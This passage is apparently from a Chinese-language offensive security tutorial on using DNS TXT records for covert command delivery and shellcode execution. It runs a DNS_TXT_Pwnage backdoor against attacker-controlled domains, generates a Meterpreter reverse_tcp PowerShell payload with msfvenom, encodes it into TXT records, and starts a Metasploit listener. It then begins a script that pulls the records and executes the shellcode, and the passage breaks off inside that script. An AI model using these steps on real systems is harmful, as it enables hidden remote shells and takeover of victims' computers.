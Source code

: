 ```
PS F:\DNS> . .\DNS_TXT_Pwnage.ps1
PS F:\DNS> DNS_TXT_Pwnage -startdomain start.evi1cg.me -cmdstring bulabula -commanddomain command.evi1cg.me -psstring start -psdomain ps.evi1
cg.me -Arguments Get-User -Subdomains 2 -StopString stop

```

这里要注意，psstring的值为start，与start.domain的TXT记录相同，cmdstring为任意字符串。效果如下图：

![Alt text](http://drops.javaweb.org/uploads/images/dcf40ec9b538bf5e6771ee36ef8ec138d41ace22.jpg)

> 这里多一个参数**Arguments**，要写明要执行的函数名，测试发现，在脚本中含有中文时会失败。对于需要带参数的脚本可以修改脚本指定参数值。

0x03 执行Shellcode
=====

可以通过TXT记录执行shellcode，首先，我们使用msf生成一个powershell的shellcode:

```
☁  ~  sudo msfvenom -p windows/meterpreter/reverse_tcp -f powershell LHOST=x.x.x.x LPORT=8887 > pspayload.txt

```

使用Out-DnsTxt对生成的文件进行转换：

```
PS F:\DNS> Out-DnsTxt -DataToEncode .\pspayload.txt
You need to create 3 TXT records.
All TXT Records written to F:\DNS\encodedtxt.txt

```

然后将以上记录分别添加到TXT记录中，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/bc339674bde592c49e59646eefa825f678f75fdf.jpg)

测试使用的32位win7系统，使用msf开启监听：

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 8887
LPORT => 8887
msf exploit(handler) > set LHOST x.x.x.x
LHOST => x.x.x.x
msf exploit(handler) > exploit    

[*] Started reverse handler on x.x.x.x:8887
[*] Starting the payload handler...

```

我们还需要一个获取TXT记录并执行的脚本，这里我改了一个脚本：

```
function Execute-Code
{
<#
.PARAMETER Shelldomain
The domain (or subdomain) whose subbdomain's TXT records would hold shellcode.
.PARAMETER subdomains
The number of subdomains which would be used to provide shellcode from their TXT records.
 .PARAMETER AUTHNS
Authoritative Name Server for the domains.
.EXAMPLE
PS > Execute-Code
The payload will ask for all required options.
```